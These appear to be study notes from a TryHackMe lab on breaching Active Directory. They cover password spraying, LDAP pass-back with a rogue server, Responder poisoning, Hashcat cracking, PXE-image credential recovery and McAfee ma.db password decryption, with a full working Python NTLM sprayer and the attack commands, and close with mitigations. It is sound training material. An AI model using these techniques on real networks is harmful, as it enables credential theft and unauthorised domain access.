






# Breaching Active Directory

Breaching Active Directory

### Introduction to AD Breaches 

* If an organisation uses Microsoft Windows then it is almost guaranteed that Active Directory (AD) will be used as it is the dominant suite used to manage Windows domain networks.
* AD holds the keys to the kingdom as it is used for identity and access management of the entire estate.

### Breaching Active Directory 

* Need to acquire an initial valid set of credentials to authenticate to AD for initial access.
* Attack surface is usually significant given the number of AD services and features.

systemd-resolve --interface breachad --set-dns 10.200.4.101 --set-domain za.tryhackme.com

nslookup thmdc.za.tryhackme.com

Make note of your VPN IP. Using ifconfig or ip a, make note of the IP of the **breachad** network adapter. This is your IP and the associated interface that you should use when performing the attacks in the tasks.

### Debugging DNS 

* Kerberos AD authentication protocol relies on DNS to create tickets.

### OSINT and Phishing 

### OSINT 

* Used to discover publicly disclosed information.
* Scripts uploaded to GitHub with hardcoded credentials.
* Credentials disclosed in public forum questions.
* Publicly known data breaches that disclosed credentials.
  * [HaveIBeenPwned](https://haveibeenpwned.com/) and [DeHashed](https://www.dehashed.com/) verifies if an email address or password has been exposed in a publicly disclosed data breach..

### Phishing 

* Entice a victim user to provide their credentials on a malicious web page or ask them to run a malicious application that would install as Remote Access Trojan (RAT) in the background.
  * RAT executes within the user’s context immediately allowing an attacker to impersonate the victim’s AD account.

### NTLM Authenticated Services 

### NTLM and NetNTLM 

* New Technology LAN Manager (NTLM) is AD’s suite of security protocols used to authenticate user identities.
* NetNTLM is a challenge-response-based scheme used for authentication by NTLM and is heavily used by network services.
* NetNTLM is often known as Windows Authentication or NTLM Authentication.
  * The application plays the role of a middle man between the client and DC.
    * All authentication material is forwarded to a DC as a challenge-response.
    * The application authenticates the user if successful.
* The application authenticates on behalf of the user instead of the user authenticating directly on the application itself.
  * This prevents the application from storing AD credentials.

.png>)

### Brute-force Login Attacks 

* Services that use NetNTLM may be exposed to the Internet:
  * Internally-hosted Exchange (email) servers that expose an Outlook Web App (OWA) login portal.
  * Remote Desktop Protocol (RDP) service of a server exposed to the Internet.
  * Exposed VPN endpoints that were integrated with AD.
  * Web applications that are Internet facing and make use of NetNTLM.
* Credentials discovered using other means can be tested on these services.
* A brute-force attack could be used on the service to try and recover valid credentials if a valid email address was recovered during initial information gathering.
* Most AD environments have account lockout configured to prevent a full brute-force attack
  * Use a quieter password spraying attack with a single password and attempt to authenticate using all acquired usernames.
* Hydra could be used to assist with a password spraying attack.
* Scripting the attack allows more control over the process.
* Python function takes a suggested password and the target URL as inputs and attempts to authenticate to the URL with each username in the text file:

def password\_spray(self, password, url):

print ("\[\*] Starting passwords spray attack using the following password: " + password)

\#Reset valid credential counter

count = 0

\#Iterate through all of the possible usernames

for user in self.users:

\#Make a request to the website and attempt Windows Authentication

response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\\\" + user, password))

\#Read status code of response to determine if authentication was successful

if (response.status\_code == self.HTTP\_AUTH\_SUCCEED\_CODE):

print ("\[+] Valid credential pair found! Username: " + user + " Password: " + password)

count += 1

continue

if (self.verbose):

if (response.status\_code == self.HTTP\_AUTH\_FAILED\_CODE):

print ("\[-] Failed login with Username: " + user)

print ("\[\*] Password spray attack completed, " + str(count) + " valid credential pairs found")

* The application will respond with a 200 HTTP OK response code if the credential pair is valid.

### Password Spraying 

* Execute the Python script:

python ntlm\_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com

* Full Python password spraying script content:

\#!/usr/bin/python3

import requests

from requests\_ntlm import HttpNtlmAuth

import sys, getopt

class NTLMSprayer:

def \_\_init\_\_(self, fqdn):

self.HTTP\_AUTH\_FAILED\_CODE = 401

self.HTTP\_AUTH\_SUCCEED\_CODE = 200

self.verbose = True

self.fqdn = fqdn

def load\_users(self, userfile):

self.users = \[]

lines = open(userfile, 'r').readlines()

for line in lines:

self.users.append(line.replace("\r", "").replace("\n", ""))

def password\_spray(self, password, url):

print ("\[\*] Starting passwords spray attack using the following password: " + password)

count = 0

for user in self.users:

response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\\\" + user, password))

if (response.status\_code == self.HTTP\_AUTH\_SUCCEED\_CODE):

print ("\[+] Valid credential pair found! Username: " + user + " Password: " + password)

count += 1

continue

if (self.verbose):

if (response.status\_code == self.HTTP\_AUTH\_FAILED\_CODE):

print ("\[-] Failed login with Username: " + user)

print ("\[\*] Password spray attack completed, " + str(count) + " valid credential pairs found")

def main(argv):

userfile = ''

fqdn = ''

password = ''

attackurl = ''

try:

opts, args = getopt.getopt(argv, "hu:f:p:a:", \["userfile=", "fqdn=", "password=", "attackurl="])

except getopt.GetoptError:

print ("ntlm\_passwordspray.py -u \<userfile> -f \<fqdn> -p \<password> -a \<attackurl>")

sys.exit(2)

for opt, arg in opts:

if opt == '-h':

print ("ntlm\_passwordspray.py -u \<userfile> -f \<fqdn> -p \<password> -a \<attackurl>")

sys.exit()

elif opt in ("-u", "--userfile"):

userfile = str(arg)

elif opt in ("-f", "--fqdn"):

fqdn = str(arg)

elif opt in ("-p", "--password"):

password = str(arg)

elif opt in ("-a", "--attackurl"):

attackurl = str(arg)

if (len(userfile) > 0 and len(fqdn) > 0 and len(password) > 0 and len(attackurl) > 0):

\#Start attack

sprayer = NTLMSprayer(fqdn)

sprayer.load\_users(userfile)

sprayer.password\_spray(password, attackurl)

sys.exit()

else:

print ("ntlm\_passwordspray.py -u \<userfile> -f \<fqdn> -p \<password> -a \<attackurl>")

sys.exit(2)

if \_\_name\_\_ == "\_\_main\_\_":

main(sys.argv\[1:])

### LDAP Bind Credentials 

### LDAP 

* Lightweight Directory Access Protocol (LDAP) authentication is similar to NetNTLM authentication but the application directly verifies the user’s credentials.
* The application has a pair of AD credentials that it uses to first query LDAP and then verify the AD user’s credentials.

.png>)

* LDAP authentication is popular with non-Microsoft applications that integrate with AD.
* Any Internet exposed services that use NTLM authentication can be leveraged using the same attacks as NetNTLM.
* Additional attack vectors are available as a service that utilises LDAP authentication requires a set of AD credentials.
  * The AD credentials used by the service may be recovered to gain authenticated access to AD.

### LDAP Pass-back Attacks 

* Common attack against network devices when initial access has been gained to the internal network.
* Attack can be performed when access is gained to a device’s configuration where LDAP parameters are specified.
  * The IP address or hostname of the LDAP server is altered to that of the attacker’s IP.
  * LDAP configuration is tested that forces the device to attempt LDAP authentication to the rogue device.
  * Authentication attempt is intercepted to recover the LDAP credentials.

### Performing an LDAP Pass-back 

* A network printer where the administrative portal does not require credentials has been identified.

.png>)

* Browser inspection shows that the printer website is secure enough to not just send the LDAP password back to the browser.

.png>)

* Exploit LDAP authentication to get the printer to try and connect to the attacking host.
* Create a Netcat listener on LDAP port TCP/389:

nc -lvnp 389

* “supportedCapabilities” response shows that the device is trying to negotiate the LDAP authentication method details before it sends over the credentials.
  * Negotiation selects the most secure authentication method that both endpoints support.
  * Credentials will not be sent in cleartext if the chosen authentication method is too secure.

.png>)

* Need to create an insecure rogue LDAP server to ensure the credentials are sent in plaintext.

### Hosting a Rogue LDAP Server 

* OpenLDAP can be used to host a rogue LDAP server.
* Reconfigure the LDAP server:

sudo dpkg-reconfigure -p low slapd

* Select \<No> when requested to “Omit OpenLDAP server configuration”.
* Provide the target domain for the DNS domain name and the Organisational name.
* Provide any Administrator password.
* Select MDB as the LDAP database backend.
* Choose \<No> to remove the database if slapd is purged..
* Choose \<Yes> to move old database files before a new one is created.

.png>)

* Create a new ldif file to downgrade the rogue LDAP server’s supported authentication mechanisms:

vim olcSaslSecProps.ldif

.png>)

*
  * **olcSaslSecProps:** Specifies the SASL security properties
  * **noanonymous:** Disables mechanisms that support anonymous login
  * **minssf:** Specifies the minimum acceptable security strength with 0, meaning no protection.
* Use the ldif file to update the configuration of the rogue LDAP server:

sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart

.png>)

* Verify that the rogue LDAP server’s configuration has been applied:

ldapsearch -H ldap:// -x -LLL -s base -b “” supportedSASLMechanisms

.png>)

### Capturing LDAP Credentials 

* Authentication from the printer will now occur in plaintext as the communication is being downgraded.
* Use tcpcump to capture the plaintext credentials:

sudo tcpdump -SX -i breachad tcp port 389

.png>)

### Authentication Relays 

### Server Message Block 

* Server Message Block (SMB) protocol allows clients to communicate with a server.
* SMB governs everything from inter-network file-sharing to remote administration in networks that use Microsoft AD.
* Security of earlier SMB versions is insufficient and some organisations may not enforce more recent versions due to legacy systems.
* Two exploits for NetNTLM with SMB will be explored:
  * Use offline cracking techniques to recover the password associated with intercepted NTLM challenges.
  * Use a rogue device to stage a MitM attack and relay SMB authentication to provide an active authentication session and access to the target server.

### LLMNR, NBT-NS, and WPAD 

* Use Responder to intercept the NetNTLM challenge to crack it.
* Authentication challenges can reach a rogue device instead of the intended host due to stale DNS records.
* Responder performs a MitM attack by poisoning the responses during NetNTLM authentication.
  * This tricks the client into talking to the rogue device instead of the actual server.
* Responder attempts to poison the following requests when detected:
  * Link-Local Multicast Name Resolution (LLMNR).
  * NetBIOS Name Server (NBT-NS).
    * Precursor to LLMNR.
  * Web Proxy Auto-Discovery (WPAD).
    * Tries to find a proxy for future HTTP(S) connections.
* LLMNR, NBT-NS, and WPAD protocols allow hosts to perform their own local network DNS resolution using broadcasts to reduce the burden on DNS servers.
* Responder hosts several servers to capture the requests and force authentication.

### Intercepting NetNTLM Challenge 

* Responder can only poison challenges on the local network.
* The poisoning behaviour can be disruptive and so detected.
* Execute Responder on the “breachad” interface:

sudo responder -I breachad

.png>)

* SMBv2 connection is received that Responder can use to entice and extract an NTLMv2-SSP response.

.png>)

* Copy the NTMLv2-SSP hash to a text file:

.png>)

* Use Hashcat and a wordlist to try and crack the hash offline.
  * Hashtype 5600 corresponds with NTLMv2-SSP for Hashcat.

hashcat -m 5600 hash.txt /root/Rooms/BreachingAD/task5/passwordlist.txt --force

### Relaying the Challenge 

* This attack depends on the permissions of the associated account so is more difficult than just capturing the challenge directly.
* A number of factors must be in place for this attack to succeed:
* SMB Signing should either be disabled or enabled but not enforced.
  * Minor changes are made to the request before passing it along and the message signature cannot be forged so the server will reject it if SMB signing is enabled.
  * Associated account needs relevant permissions on the server to access the requested resources.
    * Ideally looking to relay the challenge and response of an administrative account.
    * Initial enumeration needs to be performed to identify what accounts have permissions on which hosts.
* Ideally an attacker needs to breach AD using another method for initial access then perform lateral movement for privilege escalation.

### Microsoft Deployment Toolkit 

### MDT and SCCM 

* Microsoft Deployment Toolkit (MDT) is a service that assists with automating deployment of Microsoft OS in large organisations.
* MDT helps deploy images more efficiently as preconfigured boot images can be maintained and updated centrally.
* MDT is usually integrated with System Center Configuration Manager (SCCM) that performs patch management for all Microsoft software.
* Central management of infrastructure can be targeted by an attacker in an attempt to compromise large portions of an organisation's critical functions.

### PXE Boot 

* Preboot Execution Environment (PXE) boot allows new devices to load and install an OS directly over a network connection.
* MDT can be used to create, manage, and host PXE boot images.
* PXE boot is usually integrated with DHCP:

* PXE Boot image can be exploited for two purposes:
  * Inject a privilege escalation vector (local administrator account) to gain administrative access to the OS once the PXE boot has completed.
  * Perform a password scraping attack to recover AD credentials during the install.

### PXE Boot Image Retrieval 

* Assumption is that the PXE boot process has already been assigned an IP lease and preconfigure details by DHCP.
  * DHCP lease provides the IP of the MDT server.
* BCD files store information relevant to PXE boots for different types of architecture and are hosted on an HTTP website on the MDT server.
* Use TFTP to request each BCD file and enumerate the configuration.
* Enumerate and retrieve the PXE Boot image:

ssh thm@thmjmp1.za.tryhackme.com

* Create a new folder and copy the [powerpxe repo](https://github.com/wavestone-cdt/powerpxe) into the folder to ensure all users of the network can use SSH:

* Use TFTP to download the x64 BCD file to read the configuration of the MDT server.
  * BCD files are always located in the /Tmp/ directory of the MDT server.

tftp -i 10.200.4.202 GET “\Tmp\x64{500E8BEE-BB6D-4CF6-9368-9C8C8440B769}.bcd” conf.bcd

* Use the Get-WimFile function of powerpxe to recover the locations of the PXE Boot images from the BCD file:

powershell -executionpolicy bypass

import-module .\powerpxe.ps1

$bcdfile = “conf.bcd”

get-wimfile -bcdfile $bcdfile

* Windows Imaging Format (WIM) files are bootable images.
* Use TFTP do download the fully bootable and configured Windows image:

tftp -i 10.200.4.202 GET “\Boot\x64\Images\LiteTouchPE\_x64.wim” pxeboot.wim

### Recovering Credentials from a PXE Boot Image 

* Exfiltrate stored credentials from the recovered PXE Boot image.
  * Inject a local administrator account to provide admin access upon image boot.
  * Install image to provide a domain joined machine.
* Use powerpxe to recover credentials from the image’s bootstrap file:

get-findcredentials -wimfile pxeboot.wim

### Configuration Files 

* Various configuration files on a breached host may be of value for enumeration:
  * Web application config files.
  * Service configuration files.
  * Registry keys.
  * Centrally deployed applications.
* [Seatbelt](https://github.com/GhostPack/Seatbelt) enumeration script can automate this process.

### Configuration File Credentials 

* Recover credentials from a centrally deployed application.
* Applications usually require a method to authenticate to the domain during the installation and execution phases.
* McAfee Enterprise Endpoint Security embeds credentials used during installation to connect back to the orchestrator in a file called ma.db.
  * The database file can be retrieved and read with local access to the host to recover the associated AD service account.
  * Database file is stored in a fixed location:
* Use SCP to copy ma.db to the attacking machine:

scp thm@thmjmp1.za.tryhackme.com:c:/programdata/mcafee/agent/db/ma.db /root

* Use sqlitebrowser to read the database file:

sqlitebrowser ma.db

*
  * Select “Browse Data” option.
  * Focus on the “AGENT\_REPOSITORIES” table.
  * Note the values within the“DOMAIN”, “AUTH\_USER”, and “AUTH\_PASSWD” columns.
* AUTH\_PASSWD field is base64 encoded and encrypted but McAfee uses a known key.
  * Decrypt the password using a Python2 script:

python2 mcafee\_sitelist\_pwd\_decrypt.py jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==

*
  * Python3 version of the script is here: [https://github.com/funoverip/mcafee-sitelist-pwd-decryption](https://github.com/funoverip/mcafee-sitelist-pwd-decryption)

### Conclusion 

### Mitigations 

* **User awareness and training** - weakest link in the cybersecurity chain is almost always users.
  * Sensitive information disclosure.
  * Phishing emails.
* **Limit online exposure of AD services and applications** - place applications that support NTLM and LDAP authentication in an Intranet externally accessible only through a MFA enabled VPN.
* **Enforce Network Access Control (NAC)** - prevents an attacker from connecting rogue devices to the network.
* **Enforce SMB Signing** - mitigates any SMB relay attacks.
* **Follow the principle of least privilege** - reduces the risk associated with breached credentials.
